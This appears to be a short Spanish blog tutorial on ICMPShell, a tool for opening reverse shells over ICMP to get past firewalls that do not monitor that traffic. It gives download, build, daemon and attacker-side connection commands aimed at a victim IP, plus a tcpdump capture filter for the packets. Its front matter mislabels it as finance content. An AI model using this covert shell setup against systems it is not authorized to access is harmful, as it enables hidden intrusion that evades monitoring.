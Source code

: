 ```yaml
---
title: ICMPShell - Conexiones Inversas mediante ICMP
date: 2024-11-04 09:00:00 
categories: [FINTECH]
tags: [finanzas]
description: Una herramienta que permite realizar conexiones inversas a sistemas remotos utilizando el protocolo ICMP

---
```


ICMPShell es una herramienta que permite realizar conexiones inversas a sistemas remotos utilizando el protocolo ICMP (Internet Control Message Protocol).
Este método puede ser útil en situaciones donde el tráfico TCP o UDP esté restringido, ya que algunas configuraciones de firewall no bloquean ni supervisan el tráfico ICMP de la misma forma.
A continuación, se explican los pasos para su instalación y uso.

Es una shell que permite realizar conexiones inversas a equipos remotos haciendo uso del protocolo ICMP.

Es necesario que se descargue desde su repositorio en SourceForge:

    wget http://prdownloads.sourceforge.net/icmpshell/ish-v0.2.tar.gz

Cabe destacar que la herramienta solo funciona en sistemas Linux, BSD y Solaris.

Primero que nada es necesario desempaquetar el archivo tar que nos queda.

    tar xzf ish-v0.2.tar.gz
    make <sistema>  # [linux,bsd,solaris] Dependiendo de dónde se va a ejecutar.

Para que la pequeña shell funcione, es necesario que se copie y compile en ambos sistemas (cliente y servidor). Del lado del cliente:

    ./ishd -d -p <puerto>

En el lado del atacante:

    ./ish -tr 0 -p <puerto> <ip_victima>

Para una prueba de concepto podemos hacer uso de tcpdump. Con esta herramienta capturaremos las peticiones de tipo icmp_echo_reply (que es como funciona esta shell).

    tcpdump -nni <interface> -e icmp[icmptype] == 0 #Hacemos captura de paquetes de tipo ICMP_ECHO_REPLY.

NOTA: Si realizamos la prueba de concepto en una misma máquina, es posible hacer captura de los paquetes con loopback (interface lo).

Para más información de captura de paquetes con tcpdump:

[https://forum.ivorde.com/tcpdump-how-to-to-capture-only-icmp-ping-echo-requests-t15191.html](https://forum.ivorde.com/tcpdump-how-to-to-capture-only-icmp-ping-echo-requests-t15191.html)

Con wireshark es posible hacer lo propio. Algo de info desde Wikiversity.

[https://en.wikiversity.org/wiki/Wireshark/ICMP_Echo](https://en.wikiversity.org/wiki/Wireshark/ICMP_Echo))


